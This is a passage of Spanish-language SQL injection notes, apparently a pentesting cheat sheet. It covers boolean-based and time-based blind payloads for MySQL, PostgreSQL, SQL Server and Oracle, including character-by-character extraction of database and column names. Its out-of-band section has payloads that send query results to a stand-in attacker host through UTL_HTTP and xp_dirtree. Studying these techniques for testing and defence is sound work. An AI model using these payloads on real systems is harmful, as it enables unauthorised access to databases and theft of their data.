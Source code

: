 ### SQLi Inferencial: Boolean-based Blind

Se usa cuando la aplicación no muestra datos directamente ni errores detallados, pero su comportamiento cambia si una condición inyectada es verdadera o falsa.

**Contexto de Ejemplo:** `https://vulnerable.com/api/checkuser?username=test` Respuesta si el usuario "test" existe: `{"taken":true}` Respuesta si el usuario "test" no existe: `{"taken":false}`

**Pruebas de Inyección:**

- `?username=test' AND 1=1;--` -> Respuesta: `{"taken":true}` (si "test" existe)
- `?username=test' AND 1=2;--` -> Respuesta: `{"taken":false}` (o un error genérico, pero diferente a la respuesta verdadera)

**Extrayendo Información Carácter por Carácter (Ejemplo: nombre de la base de datos):** Se usan funciones como `SUBSTRING()`, `ASCII()`, `CHAR_LENGTH()`.

1. **Obtener longitud del nombre de la base de datos:** `?username=test' AND LENGTH(DATABASE()) = 1;--` `?username=test' AND LENGTH(DATABASE()) = 2;--` ... hasta que la respuesta sea `{"taken":true}`. Digamos que es 7.
2. **Obtener el primer carácter:** `?username=test' AND ASCII(SUBSTRING(DATABASE(), 1, 1)) > 100 ;--` (Prueba si el valor ASCII es > 100) `?username=test' AND ASCII(SUBSTRING(DATABASE(), 1, 1)) = 115 ;--` (Prueba si es 's') (Iterar usando búsqueda binaria o lineal para adivinar cada carácter)
3. **Automatizar con un script o Burp Intruder.**

**Ejemplo para encontrar columnas (como en tus notas):** `?username=usuario_valido' AND (SELECT 1 FROM information_schema.COLUMNS WHERE COLUMN_NAME LIKE 'p%' AND TABLE_SCHEMA='nombre_db' AND TABLE_NAME='usuarios' LIMIT 1)=1;--` Esto devolvería `true` si existe al menos una columna que empieza por 'p' en la tabla 'usuarios' de la base de datos 'nombre_db'. Se iteraría `LIKE 'pa%'`, `LIKE 'pas%'`, etc.

### SQLi Inferencial: Time-based Blind

Se usa cuando no hay ningún cambio visible en la respuesta. Se inyectan comandos que causan un retraso condicional.

- **MySQL:** `SLEEP()` `?id=1' AND IF( (SELECT @@version LIKE '5%'), SLEEP(5), 0 );--` (Si la versión de MySQL empieza por 5, espera 5 segundos).
- **PostgreSQL:** `pg_sleep()` `?id=1'; SELECT CASE WHEN (SUBSTRING((SELECT version()),1,10) LIKE 'PostgreSQL%') THEN pg_sleep(5) ELSE pg_sleep(0) END;--`
- **SQL Server:** `WAITFOR DELAY` `?id=1'; IF (SUBSTRING(@@version,1,15) LIKE 'Microsoft SQL%') WAITFOR DELAY '0:0:5';--`
- **Oracle:** `DBMS_LOCK.SLEEP()` o una subconsulta pesada. `?id=1' AND 1=(SELECT COUNT(*) FROM ALL_OBJECTS,ALL_OBJECTS,ALL_OBJECTS WHERE ROWNUM < (CASE WHEN (ASCII(SUBSTR((SELECT BANNER FROM V$VERSION WHERE ROWNUM=1),1,1))=79) THEN 1 ELSE 9999 END) );--` (Si el primer carácter de la versión es 'O', la subconsulta es rápida, si no, es muy lenta).

### SQLi Out-of-Band (OOB)

Requiere que el servidor de base de datos pueda realizar peticiones de red salientes (DNS, HTTP). Es potente pero situacional.

- **Oracle:** `UTL_HTTP.REQUEST()`, `UTL_INADDR.GET_HOST_ADDRESS()`, `DBMS_LDAP.INIT()` `?id=1' UNION SELECT UTL_HTTP.REQUEST('http://atacante-collab.com/' || (SELECT user FROM DUAL)) FROM DUAL;--`
- **SQL Server:** `xp_dirtree`, `xp_fileexist`, `xp_cmdshell` (si está habilitado y hay permisos) para forzar interacciones de red. `?id=1'; EXEC master.dbo.xp_dirtree '\\\\atacante-collab.com\\test';--` (Petición DNS/SMB)
- **PostgreSQL:** `COPY ... TO PROGRAM 'curl ...'` (si hay permisos de superusuario).
